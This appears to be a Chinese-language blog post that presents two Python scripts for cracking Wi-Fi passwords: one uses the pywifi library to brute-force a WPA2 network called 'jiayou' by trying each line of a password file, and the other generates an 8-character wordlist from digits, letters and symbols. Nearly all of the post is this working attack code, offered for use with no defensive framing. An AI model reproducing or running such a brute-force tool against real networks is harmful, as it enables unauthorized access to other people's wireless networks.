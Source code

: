 ```yaml
---
published: false
---
```


>基本逻辑：获取无线网卡--创建连接--读取密码本进行破解

<!-更多->

````YMAL
import pywifi
from pywifi import const
import time

#测试连接，返回链接结果
def wifiConnect(pwd):

    #抓取网卡接口
    wifi=pywifi.PyWiFi()

    #获取第一个无线网卡
    ifaces=wifi.interfaces()[0]

    #断开所有连接
    ifaces.disconnect()
    time.sleep(1)
    wifistatus=ifaces.status()

    if wifistatus ==const.IFACE_DISCONNECTED:

        #创建WiFi连接文件
        profile=pywifi.Profile()

        #要连接WiFi的名称
        profile.ssid="jiayou"

        #网卡的开放状态
        profile.auth=const.AUTH_ALG_OPEN

        #wifi加密算法,一般wifi加密算法为wps
        profile.akm.append(const.AKM_TYPE_WPA2PSK)

        #加密单元
        profile.cipher=const.CIPHER_TYPE_CCMP

        #调用密码
        profile.key=pwd

        #删除所有连接过的wifi文件
        ifaces.remove_all_network_profiles()

        #设定新的连接文件
        tep_profile=ifaces.add_network_profile(profile)
        ifaces.connect(tep_profile)

        #wifi连接时间
        time.sleep(3)

        if ifaces.status()==const.IFACE_CONNECTED:
            return True
        else:
            return False


    else:
        print("已有wifi连接") 

#读取密码本
def readPassword():

    print("开始破解:")
    #密码本路径
    path="./password1.txt"

    #打开文件
    file=open(path,"r")

    while True:
        try:
            #一行一行读取
            pad=file.readline()
            bool=wifiConnect(pad)

            if bool:
                print("密码已破解： ",pad)
                print("WiFi已自动连接！！！")
                break
            else:
                #跳出当前循环，进行下一次循环
                print("密码破解中....密码校对: ",pad)
        except:
            continue

readPassword()
``
>随机生成密码本

````YMAL

import itertools as its

# 迭代器
number = "1234567890"
words = "abcdefghijklmnopqrstuvwyz"
te_su = ".!@#$%&*"

# 生成密码本的位数，此处生成8位数，repeat=8
r = its.product(number+words+te_su, repeat=8)

# 保存在文件中，追加
dic = open("./password.txt", "a")

# i是元组
for i in r:
    # jion空格链接
    dic.write("".join(i))
    dic.write("".join("\n"))
    print(i)
dic.close()
print("密码本已生成")
``